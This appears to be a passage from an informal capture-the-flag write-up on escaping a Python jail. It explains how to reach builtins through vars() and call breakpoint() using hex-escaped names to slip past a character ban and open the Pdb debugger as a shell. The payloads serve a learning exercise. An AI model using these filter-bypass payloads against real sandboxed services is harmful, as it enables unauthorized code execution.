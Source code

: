 There is some function that is shorter than __eval(input())__, that is __breakpoint()__.

So, instead of using

```
eval(input())
```

to get the shell, we can use that is shorter

```
breakpoint()
```

in a normal syntax, __breakpoint()__ is more shorter one character, and __breakpoint()__ will send us to Pdb (Python debugger).

use this syntax to know what is builtins function

```
[y for y in vars(vars()[[x for x in vars()][6]])]
```

<img src='img/10.png' width='1000px'>

__breakpoint()__ is one of builtins function, so, lets call it but change it to hex, cuz we now its still __LITE Ban__ appear

```
vars(vars()[[x for x in vars()][6]])['breakpoint']()
vars(vars()[[x for x in vars()][6]])['br\x65akpo\x69n\x74']()
```

this is the original payload from the vid

```
vars(vars()[[x for x in vars()][6]])[[y for y in vars(vars()[[x for x in vars()][6]])][12]]()
```

i takes so long time to make it by myself, huhh

<img src='img/11.png' width='800px'>

u guys realize or nah, there is still "i" in "in"

```
vars(vars()[[x for x in vars()][6]])['br\x65akpo\x69n\x74']()
```

we can make it shorterr but its on <a href=''>golfing 50 character</a>